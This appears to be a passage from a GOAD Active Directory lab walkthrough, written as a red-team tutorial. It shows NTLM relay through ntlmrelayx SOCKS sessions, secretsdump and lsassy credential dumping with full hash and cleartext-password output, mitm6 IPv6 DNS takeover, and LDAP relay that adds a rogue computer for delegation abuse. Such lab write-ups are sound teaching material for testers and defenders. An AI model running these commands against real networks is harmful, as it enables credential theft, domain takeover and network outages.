In our previous attacks, the tool grabbed the connection and either "consumed" it immediately (Option 1: **Automated Secrets Dumping**) or bound it to a unique, ephemeral port for a single use (Option 2: Interactive SMB Session Relaying). Here, however, **impacket-ntlmrelayx** is building a centralized pool of compromised sessions. It has successfully authenticated **ROBB.STARK** to both **Castelblack (10.4.10.22)** and **Braavos (10.4.10.23)**, but instead of executing a payload, it has "parked" these authenticated sessions inside a local SOCKS4 proxy (defaulting to port 1080).

1. **The "Session Pool":** The red boxes indicate that two distinct connections are now sitting idle in memory, kept alive by the relay tool. We have effectively established a **Many-to-One** relationship: many remote servers (Castelblack, Braavos) are connected to one local listening port on our Kali machine.
1. **The Admin Interface:** Because we are using the `socks` mode, `ntlmrelayx` is actually interactive in a different way. If we type the command `socks` directly into that running terminal window, it will list all the currently active connections (Session [3] and Session [4] in this case), confirming exactly which Admin privileges or user rights we have "banked" for later use.


1. **Ready for Multi-Tooling:** The output "Enjoy" is an invitation to use tools like **proxychains**. We can now run `proxychains smbclient ...`, `proxychains netexec ...`, or `proxychains secretsdump.py ...` targeting either IP address. The traffic will hit local port 1080, be routed by `ntlmrelayx` into the appropriate authenticated session slot (3 or 4), and land on the target server as Robb Stark.
**`NOTE:`**If ntlmrelayx sends back this error:

```bash
Type help for list of commands
    self._target(*self._args, **self._kwargs)
  File "/usr/local/lib/python3.10/dist-packages/impacket/examples/ntlmrelayx/servers/socksserver.py", line 247, in webService
    from flask import Flask, jsonify
  File "/usr/local/lib/python3.10/dist-packages/flask/__init__.py", line 19, in <module>
    from jinja2 import Markup, escape
ImportError: cannot import name 'Markup' from 'jinja2' (/usr/local/lib/python3.10/dist-packages/jinja2/__init__.py)
```

We can easily resolve this issue, execute the following command and relaunch the attack.
`pip3 install Flask Jinja2 --upgrade`

**MOVING ON…**

We have successfully established a "Persistent Administrative Hold" on **Castelblack (10.4.10.22)**. Our previous verification using the `socks` command confirmed that **Session ID 1** (owned by **NORTH\EDDARD.STARK**) possesses **AdminStatus: TRUE**. This indicates that we have an active, authenticated SMB pipe to the target that we can reuse multiple times without re-poisoning the victim. We now move to the extraction phase, where we will leverage this tunnel to dump the deepest secrets stored on the machine.

**Configuring the Tunnel**

Before we can route traffic, we must configure our local proxy chain to point to the listener established by `ntlmrelayx`. By default, the relay server establishes a **SOCKS4** proxy on port **1080**. We need to ensure our OS knows where to send the intercepted tool traffic.

Edit the configuration file located at `/etc/proxychains4.conf`. We must verify the last line of this file contains the correct directive. If you are running `ntlmrelayx` locally, pointing to **localhost** is the most stable method.

**Operational Note:** Comment out `strict_chain` and enable `quiet_mode` if you want to reduce screen clutter, but ensuring the `ProxyList` is correct is the mandatory step.

```plain text
[ProxyList]
# Ensure this point to the NTLM Relay SOCKS listener
socks4 127.0.0.1 1080
```

We now proceed to execute the definitive data extraction technique that converts our transient network access into a permanent tactical advantage. By routing impacket-secretsdump through our established SOCKS proxy, we can reach through the relay tunnel and perform remote operations against the Security Account Manager (SAM) and the Local Security Authority (LSA) subsystem on Castelblack. This specific attack vector relies on our relay session possessing AdminStatus: True, effectively granting us the ability to open the remote registry service or inject into LSASS to retrieve data that is normally protected by the operating system kernel.

## **Dumping SAM**

When we target the SAM Database, our primary objective is the extraction of the local user hashes, specifically the built-in Administrator (RID 500). This NTLM hash serves as a "Skeleton Key" because in many organizations, local administrator passwords are reused across server groups or workstations. Obtaining this single hash allows us to perform lateral movement using Pass-the-Hash against any other machine in the subnet that shares this credential deployment, breaking our dependency on the initial relay victim.

`proxychains impacket-secretsdump -no-pass NORTH/EDDARD.STARK@10.4.10.22`



```bash
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x5ee346d4358d7437b34ce472a0d560a9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8fc87b487191679ac1734ac3d3ef7902:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2026-01-03 16:27:55+00:00)
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405: (2026-01-06 21:32:27+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:02385962e34ee9e5a62670f7940c5a16aad35d75ec9abe47ba26b937e2b73cbb
NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:8f0797949b563441afa82128c3116e09
NORTH\CASTELBLACK$:des-cbc-md5:1f5461160d790120
NORTH\CASTELBLACK$:plain_password_hex:63002000530039007300230032005300560038003c00770050003900260068002600580039006e002800760020004f0031005300610021005c0035005300620027006300490050005500500079004b004a006c004f00560058004600680026004c0022005f0078007a00210052003a002a005c00530027002f004c007800640074007a005e003600580029003300470047002800470052003c003800220040004a00650024005800350074007300330048007000200069002a0059003700640051006f0064004d003f002300310069004a0051004a0032004d00550047003a0037004d004600380066006a0072004500
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:7206ec17cedd94b6cc0560d169c5e0a7:::
[*] DefaultPassword 
localuser:password
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc5c79e3c29e853d2d66f2915b5ab024781482f37
dpapi_userkey:0x4923d9f4c2a552cd7cd7d8d4cea14b0f7ffbff25
[*] NL$KM 
 0000   59 A8 45 DA 9F 39 03 3E  24 63 1D FB 38 83 85 44   Y.E..9.>$c..8..D
 0010   2D 68 F4 2A B0 7C 06 1E  FD C8 54 06 12 74 2B 89   -h.*.|....T..t+.
 0020   E5 65 36 3B 12 C2 E7 10  2A B9 4A C0 9F B3 77 B6   .e6;....*.J...w.
 0030   7D E6 5B 15 A4 2A 38 5D  27 77 82 45 6C BD 47 5F   }.[..*8]'w.El.G_
NL$KM:59a845da9f39033e24631dfb388385442d68f42ab07c061efdc8540612742b89e565363b12c2e7102ab94ac09fb377b67de65b15a42a385d277782456cbd475f
[*] _SC_MSSQL$SQLEXPRESS 
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
```

The output from our **`secretsdump`** execution through the proxy tunnel represents a total compromise of the identity store on **Castelblack**. We have successfully extracted the keys to the kingdom for this specific host, along with pivot points for the wider domain.

First and foremost, the **SAM Database** dump provided us with the NTLM hash for the builtin **Administrator (RID 500)**. This `dbd13...` hash effectively grants us permanent local administrative control over this server and allows us to perform Pass-the-Hash attacks against any other machine in the North domain that shares this same local administrator credential.

Moving to the **LSA Cache**, we retrieved the **MSCACHE (DCC2)** entries for domain users who recently logged in interactively, specifically **`robb.stark`** and **`sql_svc`**. While these hashes are salted and significantly slower to crack than standard NTLM, they confirm that these high-value accounts utilize this server, validating it as a strategic target. Furthermore, we captured the **Machine Account hash** for `NORTH\\CASTELBLACK$`. Possession of this credential allows us to impersonate the computer object itself within the domain, opening possibilities for Silver Ticket attacks to persist on the host without knowing any user passwords.

The most critical operational find, however, lies in the **LSA Secrets** section. The tool recovered the plaintext password for the MSSQL service account (`_SC_MSSQL$SQLEXPRESS`): **`YouWillNotKerberoast1ngMeeeeee`**. This illustrates a common Windows behavior where service accounts configured to run specific applications have their cleartext credentials stored in the LSA so the system can automatically start them. We have now bypassed the need to crack the `sql_svc` Kerberoast hash entirely; we have the cleartext password ready for use.

From an OpSec and infrastructure perspective, using the SOCKS feature allows us to be surgical with our "Living off the Land" binaries. Since we are tunneling traffic, we aren't uploading malware to the endpoint; we are administering it remotely using valid protocols. However, we must monitor our **Responder** window closely. Since we are actively relaying, Responder must act purely as the poisoner without capturing the hash itself on the same port, as per our established Split-Infrastructure configuration. This SOCKS method effectively turns our Kali machine into a rogue administrative console for as long as the victim's session keep-alives remain valid.

## **Dumping LSASS with lsassy**

We move from extracting secrets at rest (the SAM database and Registry) to harvesting secrets in motion by targeting the **Local Security Authority Subsystem Service (LSASS)**. While the SAM dump provided us with the password hashes of local users and cached domain accounts, dumping the LSASS process memory allows us to retrieve credentials for currently active sessions. This includes cleartext passwords for users with WDigest enabled, unexpired Kerberos Ticket Granting Tickets (TGTs), and NT hashes for domain admins who might have a disconnected session lingering on the machine. 
This step represents the "Live" side of forensic credential gathering, capitalizing on the Windows operating system's need to keep authentication material in memory to facilitate Single Sign-On.

The mechanics of this attack through our established **SOCKS proxy** are a testament to the stability of the authenticated tunnel provided by `ntlmrelayx`. Typically, dumping memory requires a highly stable, interactive RPC or SMB channel because the dump file can range from 30MB to 200MB. Executing this through a relay tunnel forces that massive data stream through our HTTP/SMB session relay. 


NOTE: This attack only works if there is any session(logged-in user) on the machine, because all user authentication, password changes, creation of access tokens, and enforcement of security policies are stored in the RAM and once the machine reboots OR the users do logout the machine then the RAM gets cleaned up.

**RAM is volatile memory that temporarily stores the files you are working on.** 
**ROM is non-volatile memory that permanently stores instructions for your computer.**

[Lsassy](https://github.com/Hackndo/lsassy) allows us to dump LSASS remotely (very more convenient then doing a procdump, download of the LSASS dump file and doing pypykatz or mimikatz locally), it do all the painful actions like dump and read lsass content for you (it also dump only the usefull part of the lsass dump optimizing the time of transfer).

`proxychains lsassy --no-pass -d NORTH -u EDDARD.STARK 10.4.10.22`



We have successfully looted the memory of **Castelblack** and retrieved valid Kerberos tickets, stored as **`.kirbi`** files. These are not password hashes that need cracking; they are active, digital keys that we can use immediately.

**The Golden Loot: TGTs (Ticket Granting Tickets)**
The files beginning with **`TGT_`** (e.g., `TGT_...robb.stark...` and `TGT_...CASTELBLACK$...`) are the most critical. These tickets represent the identity of the user or the computer itself valid for the duration of the Kerberos session (usually 10 hours).

- **Robb Stark's TGT:** Allows us to perform a **Pass-the-Ticket (PTT)** attack. We can import this ticket into our current session (convert it to ccache) and become Robb Stark on the network without ever knowing his password.
- **Machine TGT (CASTELBLACK$):** Allows us to impersonate the computer itself. This is vital for attacks requiring machine authentication or potentially for unconstrained delegation abuses.
**Service Tickets: TGSs**
The files beginning with **`TGS_`** are tickets for specific services (like `cifs` for file shares or `ldap`). These confirm what resources the user was accessing when we dumped the memory. While less versatile than TGTs, they allow us to access those specific services (like the file share on Winterfell) without triggering a new authentication request at the Domain Controller. Essentially, we have bypassed authentication entirely. We can now load these tickets and "ride" the existing sessions of these users.

However, from an OpSec perspective, this is arguably the single most dangerous action we have taken in this phase. Touching the `lsass.exe` process is the number one trigger for Endpoint Detection and Response (EDR) solutions. Dumping LSASS memory, even remotely, creates a distinct process access handle pattern that modern defenses like Defender for Identity or SentinelOne identify as malicious behavior typical of Mimikatz-style activity. 

## **Dumping DPAPI **

The** Windows Data Protection API (DPAPI)** represents the operating system's internal mechanism for securing user secrets at rest. While our previous attacks utilizing the SAM and LSASS focused on obtaining credentials to authenticate to *other* machines (lateral movement), attacking DPAPI allows us to loot the data that belongs to the user on this machine. This includes highly sensitive operational data such as saved passwords in browsers (Chrome/Edge), stored Wi-Fi pre-shared keys, credential manager blobs, VPN configurations, and remote desktop connection passwords.

The architecture of DPAPI relies on a hierarchy of encryption keys to protect these secrets transparently. At the bottom level are the actual data blobs (like a file containing a saved website password). These blobs are encrypted using a **Master Key**, which resides in the user's profile directory. Crucially, this Master Key is itself encrypted using the user's logon password or the Domain Backup Key. When we gained administrative access to Castelblack via our relayed session, we obtained the privilege level required to interact with the protected storage areas where these keys reside.

***`Note:`**** Since we are routing through **`ntlmrelayx`**'s session cache, the actual username passed to the tool acts as a placeholder if using -no-pass, but DonPapi often prefers valid credentials or hashes to decrypt the Master Keys directly. Ideally, we provide the NTLM hash of the local administrator we dumped previously, or we rely on the **`pvk`** (Domain Backup Key) if we compromised a DC.*

If successful, this attack converts the abstract "Administrative Access" into tangible personal data. Recovering a browser history or a saved password for a banking site or internal cloud portal often provides the critical context needed to understand the user's role and pivots the engagement from infrastructure compromise to data exfiltration. In many cases, admins will save credentials for high-security firewalls or hypervisors in their browser's password manager, and cracking DPAPI is the only way to recover them cleartext.

## **Dumping DPAPI with DonPAPI**

## **Dumping DPAPI with NetExec**

## **Relayed Share Enumeration: Mining the File System**

While dumping the SAM, LSASS and DPAPI provides us with authentication material for further attacks, physically exploring the network shares allows us to assess the "soft" intelligence of the target, identifying sensitive configuration files, backup repositories, and writable directories that act as staging grounds for remote code execution. Because we are operating through an established SOCKS connection via `ntlmrelayx`, every request we make to the file server inherits the identity of the relayed victim in our current scenario, the high-privileged **Eddard Stark**.

To execute this, we utilize the ubiquitous **`[smbclient.py](http://smbclient.py/)`**** **by** ****[IMPACKET](https://github.com/fortra/impacket/blob/master/examples/smbclient.py)**** **or** ****[NetExec](https://www.netexec.wiki/)**** ** utility routed through **proxychains**. This approach transforms our terminal into an interactive window onto the target server's hard drive. By pointing our client at the IP address associated with our hijacked administrative session, we can browse hidden administrative shares like **C$** and **ADMIN$** which are normally invisible to standard users. Access to these specific roots is the operational definition of a full compromise, as it grants us the ability to write executables directly to the `System32` or user startup folders, or to retrieve artifacts like the **`ntds.dit`** database if we were targeting a Domain Controller backup server.

From a strategic perspective, we are prioritizing the discovery of **WRITE** access. While reading files provides intelligence, finding a writable share is a tactical prerequisite for lateral movement techniques like PsExec or Service Binary Manipulation. If we can upload a malicious binary to a share where other users frequently access data, we transform a single compromised server into a watering hole for further credential harvesting. In the context of the GOAD environment, verifying access to the administrative shares on Castelblack confirms that we can execute arbitrary code on the machine at will, completing the kill chain from the initial LLMNR poison event to total system control.

## **Exploring Shares with Impacket**

## **Exploring Shares with NetExec**

## **IPV6 DNS Takeover**

This is the pivot point where we graduate from exploiting legacy protocols like LLMNR (via Responder) to exploiting the modern architecture of the Windows Operating System itself. While SMB Relaying to member servers granted us local administrative rights on specific hosts like **Castelblack**, it fundamentally failed against Domain Controllers like **Winterfell** because of mandatory SMB Signing. To compromise the heart of the domain, we must shift protocols. We are targeting the **Lightweight Directory Access Protocol (LDAP)**, which controls the database of the Active Directory itself.

The vulnerability we exploit here is not a bug, but a "feature by design" in how Windows handles networking. Microsoft's TCP/IP stack prefers **IPv6** over **IPv4**. In almost all corporate environments (and the GOAD lab), administrators configure the network using IPv4 and leave IPv6 enabled but unconfigured "just in case". When a Windows machine boots, it multicasts a DHCPv6 solicitation looking for a configuration. Since legitimate servers usually ignore this, we introduce **mitm6**. This tool acts as a rogue DHCPv6 server. It immediately answers the victim's call, assigns them a malicious IPv6 address, and crucially, configures **our** Attack Machine's IPv6 address as their primary DNS server.

Once we win this race, the victim machine starts sending all DNS queries to us. When it asks for resources (commonly searching for the **WPAD** configuration to setup a proxy, or contacting internal file shares), we reply with our own address. The victim connects to us to authenticate, giving us a valid authentication session. Instead of cracking this hash or trying to relay it to a file server (which would fail on a DC due to signing), we relay this authentication to the **LDAP service** on the Domain Controller.

Critically, **LDAP Signing** and **Channel Binding** are not enforced by default in many standard AD environments (unlike SMB Signing). This means that even though we don't know the victim's password, we can relay their NTLM handshake to the DC, successfully bind to the LDAP interface, and execute queries or modifications as if we were that user. This allows us to dump domain information or, more dangerously, create rogue computer accounts for later privilege escalation.

To execute this, we effectively effectively "flip" the roles of our previous setup. We are no longer relying on Responder for poisoning (though we often keep it handy to analyze traffic), **[mitm6](https://github.com/dirkjanm/mitm6)** handles the poisoning and traffic redirection via IPv6/DNS spoofing. **impacket-ntlmrelayx** handles the listener (HTTP/SMB) and the active relay logic targeting the LDAPS endpoint.

The sequence we will execute is as follows:

1. **Configure ****`ntlmrelayx`** to listen for authentication on ports 80 and 445, and set its target to the LDAPS service of the Domain Controller (**Winterfell**). We use the `6` flag or specify the IPv6 interface if necessary, and enable `loot` to extract data immediately.
1. **Execute ****`mitm6`** on the primary interface targeting the **north.sevenkingdoms.local** domain. We intentionally filter the attack to specific domains to avoid taking down the entire network infrastructure, which is a serious OpSec risk with IPv6 flooding.
1. **Wait or Coerce:** As machines on the network reboot or renew leases, they will latch onto our rogue IPv6 server. Authentication traffic will begin flowing into our relay, which will forward it to the DC's directory service to dump database info.
**`Warning on Impact:`** This attack is significantly more aggressive than LLMNR poisoning. Because we are taking over DNS resolution for the victim, we essentially become their gateway to the network. If we stop the tool abruptly or misconfigure the relay, the victim loses internet and intranet connectivity. In a real engagement, this causes immediate "Denial of Service" tickets to the Help Desk. In GOAD, it is the perfect way to force a DC compromise using standard user traffic.

`sudo mitm6 -i eth0 --debug`



After initializing our mitm6 it’s possible to see 4 important messages on our output.

`1 - Primary adapter` = This gives us information about the network interface chosen to be used for the sniffer and is MAC Address.
`2 - IPv4 address` = This gives the current IPv4 our network interface has assigned.
`3 - IPv6 address` = This gives the current IPv6 our network interface has been assigned.
`4 - DNS local search domain` = This gives the current information about the domain we have chosen to do our search.
`5 - DNS allowlist ` = This gives us the one and only domain the tool is allowed to be sniffing.

## **LDAP Relaying and Resource-Based Constrained Delegation (RBCD)**

With **mitm6** actively spoofing DNS and directing network traffic to our attack machine, we now need a listener to capture that authentication and weaponize it. We utilize **ntlmrelayx** to serve as the "Fake Web Proxy" (WPAD) that the victims are requesting. Once they connect to us to authenticate, we relay their session directly to the secure LDAP service (LDAPS) on the Domain Controller to perform a high-impact privilege escalation attack.

Our specific objective with this command is **Resource-Based Constrained Delegation (RBCD), **which will be a topic that we will discuss later on during **GOAD - part 10 - Delegations** . 
Instead of just dumping data, we are attempting to manipulate the Active Directory structure itself to create a permanent backdoor.

`[ntlmrelayx.py](http://ntlmrelayx.py/)`` -6 -wh 'wpadfakeserver.essos.local' -t 'ldaps://meereen.essos.local' --add-computer 'starkcomputer' --delegate-access`



Here is a breakdown of the specific arguments and the "Kill Chain" they automate:

- **`6`**: We explicitly tell the tool to listen on IPv6, matching the layer we just poisoned with mitm6.
- **`wh wpadfakeserver...`**: We define the "Web Proxy Hostname." This serves the specific WPAD configuration file that legitimate clients are requesting, tricking them into authenticating to us.
- **`t ldaps://...`**: We target the Domain Controller via **LDAPS**. Using the encrypted (SSL) version of LDAP is critical here because creating computer accounts and modifying delegation attributes is typically forbidden over an unencrypted channel.
- **`-add-computer 'starkcomputer'`**: This exploits the default `MachineAccountQuota`. By default, any authenticated user can join up to 10 machines to the domain. We are using the victim's session to register a new computer account that **we** control.
- **`-delegate-access`**: This is the finishing move. Once our new computer account (`starkcomputer$`) is created, this flag modifies the victim object's attributes to "Trust" our new computer. This allows us to impersonate an Administrator on the victim machine later using the new computer account we just minted.
Basically we are taking a standard authentication attempt and converting it into a persistent mechanism that allows us to impersonate domain admins against the target machine.

In a real world infra, we would have to wait for our victim to reboot or reconnect to the network (VLAN) where we do have our `mitm6` & `ntlmrelayx` running. Because we are dealing with a Lab environment, let’s simply connect to BRAAVOS via RDP and make some changes to our NIC (Network Interface Card) configuration.



Notes: For this attack to work, we should make sure that we have set `Obtain an IP address automatically`, we do have set `Obtain DNS server address automatically` and last but not least, the `Internet Protocol Version 6` is enabled as well (Which normally they are enabled by default). Once we do have this configuration done, we can simply open CMD.exe and issue the command `ipconfig /renew` or reboot the machine.

Checking our target machine’s network configuration again after this renew or reboot, we will see that the DNS Server’s IP is now the IPv6 is the same IPv6 assigned to us when we ran **`mitm6`** on our attacking machine. We have poisoned the DNS.



Now, if we do have a look to `ntlmrelayx` again, we have successfully executed the Resource-Based Constrained Delegation attack, a pivotal moment that transitions our access from simple relaying to persistent architectural compromise. In the logs provided, we can observe that our poisoning effort captured the authentication of the machine account `BRAAVOS$`, likely following a reboot or network refresh. Rather than simply dumping information, `ntlmrelayx` leveraged this privileged session against the Domain Controller's LDAPS service to execute a complex two-stage exploitation chain that fundamentally alters the trust relationships within the domain.



## **Relay-Based Data Dumping**

While modifying domain objects to create persistent backdoors (like in the RBCD attack) is powerful, sometimes our goal is pure, high-volume intelligence gathering without altering the directory state. We achieve this by configuring **ntlmrelayx** to act as a data siphon rather than an active modifier. By omitting flags like `--add-computer` or `--delegate-access` and simply specifying a **loot directory (****`-l /tmp/loot`****)**, we instruct the relay server to perform a comprehensive dump of the target domain's metadata the moment a connection is established.

This operation effectively mirrors the capabilities of BloodHound or extensive manual LDAP reconnaissance, but with a critical advantage: it requires **zero credentials** beforehand. Because we are relaying the session of a machine account (like **BRAAVOS$**) or a user, we inherit their "Read" permissions on the entire directory tree. When the relay handshake with the Domain Controller succeeds (seen in the log as `Authenticating... SUCCEED`), the tool automatically executes a recursive query against the Global Catalog and Domain Partitions.

`[ntlmrelayx.py](http://ntlmrelayx.py/)`` -6 -wh 'wpadfakeserver.essos.local' -t 'ldaps://meereen.essos.local' -l /tmp/loot`



The result, as shown in the screenshot, is a treasure trove of static HTML and grep-able text files dumped into our local directory. Specifically, `domain_users_by_group.html` provides a clickable roster of every user and their privileges, while `domain_computers_by_os.html` allows us to identify legacy operating systems (like Server 2008) that might be vulnerable to older exploits. This passive dump is often the preferred first step in a "Purple Team" or stealth-focused engagement, as reading the directory is a legitimate action that generates far fewer high-severity alerts than adding new computer accounts or modifying security descriptors. It essentially turns a single poisoned packet into a complete map of the Essos domain.

